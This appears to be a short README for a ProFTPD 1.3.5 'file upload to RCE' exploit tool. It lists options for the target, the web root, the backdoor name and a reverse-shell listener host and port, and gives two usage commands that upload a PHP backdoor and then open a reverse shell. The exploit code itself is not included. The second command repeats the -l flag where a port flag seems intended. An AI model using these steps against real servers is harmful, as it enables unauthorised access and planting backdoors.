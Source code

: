 # ProFTPD 1.3.5 File Upload to RCE exploit!


    ProFTPd 1.3.5 File Uploader
    Usage: ProFTPD.py [options]

    Options:
    -h, --help               show this help message and exit
    -l LHOST, --lhost=LHOST    Local IP Required for Reverse Shell,
                            
    -p LPORT, --lport=LPORT    Port Required for Reverse Shell,
                       
    -t TARGET, --target=TARGET  Vulnerable Target,
                        
    -d DIRECTORY, --dir=DIRECTORY  WebRoot directory to Upload Backdoor,   Default: /var/www/html
                        
    -c COMMAND, --command=COMMAND   System Command,
                        
    -f FILE, --file=FILE           Backdoor Name,      Default: shell.php
    -s SHELL, --shell=SHELL        ReverShell Name, 
      




STEP 1 - Upload Backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -d '/var/www/html'

STEP 2 - Get Shell! mere commodity! you can always curl your backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -l 172.x.x.x -l 4242
